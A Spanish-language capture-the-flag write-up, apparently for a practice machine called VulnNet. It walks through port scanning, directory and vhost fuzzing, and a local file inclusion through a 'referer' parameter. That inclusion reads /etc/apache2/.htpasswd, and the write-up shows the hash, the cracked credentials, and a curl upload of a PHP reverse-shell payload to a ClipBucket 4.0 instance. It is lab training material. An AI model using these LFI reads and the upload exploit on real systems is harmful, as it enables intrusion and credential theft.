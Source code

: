 
# SCAN+
```
PORT   STATE SERVICE VERSION                                                                                                                                 
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
# WEB ENUM

## DIRECTORIES

Utilizando gobuster para buscar directorios encontramos los directorios comunes:
```
gobuster dir -u vulnnet.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://vulnnet.thm
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/12 11:54:42 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 308] [--> http://vulnnet.thm/css/]
/js                   (Status: 301) [Size: 307] [--> http://vulnnet.thm/js/] 
/img                  (Status: 301) [Size: 308] [--> http://vulnnet.thm/img/]
/fonts                (Status: 301) [Size: 310] [--> http://vulnnet.thm/fonts/]
                                                                               
===============================================================
2022/08/12 11:56:03 Finished
===============================================================

```
## SUBDOMAINS

```
gobuster vhost -u vulnnet.thm -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -t 40
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://vulnnet.thm
[+] Method:       GET
[+] Threads:      40
[+] Wordlist:     /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/08/12 11:50:33 Starting gobuster in VHOST enumeration mode
===============================================================
Found: gc._msdcs.vulnnet.thm (Status: 400) [Size: 424]
Found: broadcast.vulnnet.thm (Status: 401) [Size: 468]
Found: _domainkey.vulnnet.thm (Status: 400) [Size: 424]
                                                       
===============================================================
2022/08/12 11:50:59 Finished
===============================================================

```
Buscando subdominios (virtual hosts) tambien mediante gobuster encontramos el subdominio 

## PARAMETROS URL

Podemos utilizar wfuzz para buscar parametros para un posible ataque LFI
```
wfuzz -u vulnnet.thm/index.php?FUZZ=/etc/passwd  -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -c --hw 462
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://vulnnet.thm/index.php?FUZZ=/etc/passwd
Total requests: 4712

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                     
=====================================================================

000003464:   200        174 L    514 W      7660 Ch     "referer"                                                                                   

Total time: 25.48573
Processed Requests: 4712
Filtered Requests: 4711
Requests/sec.: 184.8877
```
eliminando los paquetes de tamaño 462 W eliminamos los falsos positivos. Luego hemos encontrado una puerta de entrada para un posible
ataque del tipo LFI
> vulnnet.thm/index.php?referer=

# LFI EXPLOIT
Explotando la vulnerabilidad anterior podemos ver en 
> vulnnet.thm/index.php?referer=/etc/apache2/.htpasswd, el siguiente hash:
> developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
explicacion: Apache se puede confirgurar para que un sitio, un subdominio o un directorio tengan acceso restringido solo a algunos usuarios. Para esto hay que configurarlos. La configuración se realiza en varios pasos:
1. Se crea un archivo que por convención se llama .htpasswd (aunque en realidad se puede llamar de cualquier manera) donde se guardan las credenciales en forma:
- username: password
El username va en texto plano y el password en una variante de MD5 llamada crypt propia de apache. Cada credencial esta en una linea. Este fichero se
puede crear "a mano" con un editor de texto, pero es mejor hacerlo con una aplicacion especifica (htpasswd) y es mejor guardarlo en un lugar que no sea accesible desde la web. 
2. Una vez que se ha creado el fichero .htpasswd, debe configurarse el sitio correspondiente que se encuentra en /etc/apache2/sites-available/fichero de la siguiente manera:
```
<VirtualHost *:80>
  ServerAdmin webmaster@localhost
  DocumentRoot /var/www/html/broadcast
  ServerName broadcast.vulnnet.thm
  <Directory "/var/www/html/broadcast">
        AuthType Basic  # Typo de autenticacion. En este caso Basic
        AuthName "broadcast area"
        AuthUserFile /etc/apache2/.htpasswd  # path al fichero donde estan las acreditaciones
        Requiere valid-user
  </Directory>
</Virtualhost>
```

##JtR
> developers:9972761drmfsls

# CVE
Entramos en una pagina donde hay una aplicacion llamada **ClipBucket** que es una aplicacion que nos permite subir fotos y videos tipo youtube
Vemos que para la version 4.0 hay una vulnerabilidad que nos permite RCE, file upload e incluso sqlinjection:
![image](https://user-images.githubusercontent.com/70599089/184412628-ba9e86d3-3021-401a-8dcb-38c032fa0861.png)

Optamos por un file upload utilizando un payload tipo pentestmonkey en curl
> curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://broadcast.vulnnet.thm/actions/beats_uploader.php" http://broadcast.vulnnet.thm -u developers:9972761drmfsls

